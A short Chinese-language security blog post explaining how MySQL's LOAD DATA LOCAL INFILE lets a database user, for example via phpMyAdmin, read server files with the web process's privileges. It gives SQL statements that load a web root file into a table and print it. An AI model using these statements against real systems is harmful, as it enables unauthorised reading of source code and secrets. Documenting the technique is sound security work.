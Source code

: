 ```yaml
---
title: "MySQL load data local"
date: 2018-07-22T00:00:00+08:00
draft: false
author: "X1r0z"

tags: ['mysql']
categories: ['Web安全']

hiddenFromHomePage: false
hiddenFromSearch: false

toc:
  enable: true
math:
  enable: false
lightgallery: false
---
```


当 LOAD DATA INFILE 指定 LOCAL 时, 用户无需 FILE 权限, 文件将由客户端读取, 并把数据发送至服务器上.

**以当前执行命令用户的权限读取文件.**

<!--more-->

例如从 phpmyadmin 中执行语句, 用户权限就为 web 容器的权限.

```
create table `localfile` ( `content` LONGTEXT );
LOAD DATA LOCAL INFILE 'C:/WWWROOT/index.php' INTO TABLE `localfile` fields terminated by '';
select `content` from `localfile`;
```

如果显示不全或者其它奇怪的原因就在语句后面加上 `LINES TERMINATED BY '\0'`.